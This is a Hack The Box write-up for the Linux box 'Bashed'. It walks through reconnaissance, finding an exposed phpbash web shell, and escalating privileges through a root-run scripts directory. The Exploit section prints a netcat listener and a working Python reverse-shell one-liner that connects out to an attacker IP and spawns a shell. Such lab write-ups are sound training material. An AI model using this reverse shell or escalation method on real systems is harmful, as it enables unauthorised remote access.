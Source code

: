 ```yaml
---

title: " Write Up for BASHED "

categories:
  - Hack The Box
tags:
  - Linux
  - HTB

---
```


# BASHED

This is an easy box based on linux 

---


## Reco

Time to scan, for this one i used ZenMap : 
![alt text](/assets/images/bashed/zenmap.png?raw=true "zenmap")

We find the port 80, let's check it out.

The site looks like a presentation for a Reverse Shell in PHP, their is also a link for it on GitHub.

The tool is name "phpbash.php", it might be present on the website, who knows ?

Let's try the same URL as shown in GitHub: http://10.10.10.68/upload/phpbash.php 

ahh nothing

Time To dirb !
![alt text](/assets/images/bashed/dirb.png?raw=true "dirbuster")

Ok we found it ! http://10.10.10.68/dev/phpbash.php

So, i guess we have a reverse shell already?

Lets upload LineNum.sh to get some informations.
![alt text](/assets/images/bashed/getLinenum.png?raw=true "phpbash")

We have some users
![alt text](/assets/images/bashed/user.png?raw=true "userlist")

 and some interresting things 
![alt text](/assets/images/bashed/nooPass.png?raw=true "nopasswd")

## Exploit

Ok so this mean we can su to scriptmanager without a password, thats great ! 
![alt text](/assets/images/bashed/userflag.png?raw=true "flag")

And we own the user :)

phpbash does not have a lot of permission so it's time to get a proper REshell.

For this one i'm using nc for the server : 

```bash
nc -nvlp 1234 
```

and python for the client : 

```python
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```
![alt text](/assets/images/bashed/reshellbien.png?raw=true "Autoruns")

No its time to privesc, lets check out some linux stuff.

We can see a directory name scripts at the root that contain a basic python script wich is executed 
regularly and got root privileges.

![alt text](/assets/images/bashed/scripts.png?raw=true "script")

let's upload our reverse shell here..

I'm using a python script for this one.

![alt text](/assets/images/bashed/root.png?raw=true "root")

Aaaaand we are Root !




